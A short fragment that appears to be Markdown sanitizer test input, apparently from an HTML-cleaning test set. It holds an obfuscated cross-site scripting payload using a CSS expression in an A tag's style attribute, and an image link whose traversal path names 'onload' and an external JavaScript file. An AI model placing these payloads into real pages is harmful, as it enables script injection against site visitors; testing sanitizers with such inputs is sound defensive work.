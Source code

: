 ![

exp/*<A STYLE='no\xss:noxss("*//*");
xss:ex/*XSS*//*/*/pression(alert("XSS"))'>


](()
![a](../../../../../../../img/onload/../../r89shi/r89shi.github.io/blob/master/teste.js)
